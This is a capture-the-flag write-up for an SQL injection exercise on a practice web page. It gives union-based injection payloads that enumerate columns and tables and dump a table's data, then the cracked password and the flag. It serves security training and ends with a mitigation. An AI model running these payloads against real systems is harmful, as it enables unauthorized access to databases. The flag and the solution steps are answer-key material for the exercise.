 # SQL INJECTION IMAGE

## The flag

```
THE FLAG IS : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find it ?

On the page http://{IP_ADDRESS}/index.php?page=searchimg

- To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
-> good so 2 columns

- To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
-> id, url, title, comment

- To see all user's data
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
-> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('1928e8083cf461a51303633093573c46')
-> albatroz
lower('albatroz')
-> albatroz
sh256('albatroz')
-> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## How to use it ?

Dump and get all database infos


## How to avoid it ?

Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.